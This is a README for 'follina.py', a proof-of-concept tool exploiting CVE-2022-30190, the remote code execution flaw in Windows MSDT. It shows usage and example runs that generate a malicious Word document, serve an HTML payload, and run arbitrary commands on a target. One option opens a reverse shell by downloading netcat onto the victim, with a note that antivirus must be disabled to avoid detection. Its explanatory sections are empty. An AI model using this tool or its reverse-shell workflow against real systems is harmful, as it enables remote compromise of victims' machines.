


# CVE-2022-30190
Microsoft Windows Support Diagnostic Tool RCE   
&nbsp;

## POC

&nbsp;

## Usage
```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
&nbsp;

# Examples

### Pop calc.exe:
```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

### Pop notepad.exe:
```
$ python3 follina.py -c "notepad"
```

### Get a reverse shell on port 9001.
```
$ python3 follina.py -r 9001
```
Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.
</br>&nbsp;

## How Does It Works

</br>&nbsp;

## Credit
[JohnHammond](https://github.com/JohnHammond/msdt-follina/blob/main/README.md)'s github page.</br>
[sans](https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694)'s webpage.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or buy me a [Coffee](https://buymeacoffee.com/NafisiAslH)
